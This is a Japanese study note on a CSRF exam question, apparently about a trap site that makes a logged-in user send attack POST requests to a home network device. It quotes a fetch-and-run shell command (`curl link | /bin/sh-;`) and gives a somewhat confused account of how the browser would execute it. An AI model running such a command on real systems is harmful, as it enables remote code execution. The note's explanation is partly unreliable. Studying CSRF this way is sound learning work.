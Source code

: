 ```yaml
---
tags:
  - CSRF
---
```

![[Pasted image 20241103114605.png]]
![[Pasted image 20241103114547.png]]![[Pasted image 20241103114650.png]]
問題：下線部3はどのような仕組みで利用者に脆弱性B（ログイン済みの利用者に罠サイトを踏ませることで、意図せずのリクエストをWebアプリRに送信させる）を悪用して攻撃リクエストを送信させることができるか？
回答：攻撃リクエストをPOSTメソッドで送信させるスクリプトを含むページを表示させる仕組み
CSRFの手口、罠サイトに悪意のあるコードをダウンロードし、実行するコード`curl link | /bin/sh-;`を含ませ、ユーザ画面上に表示される時にBrowserによって実行される。
戸惑った点は、単なるユーザの画面上に表示するだけでは、攻撃者はどのようにネットワーク内に存在するネットワーク掃除機を見つけて、それにリクエストを送信するか点。
結論、問題の攻撃者は多分固定したIPアドレス(製品のデフォルトIP）でCSRFコードを埋めて、悪意のあるリンクを踏んだユーザがたまたま同じアドレスの設定でしたらコードを実行できるということを表現したいかもしれない。
[[CSRF]]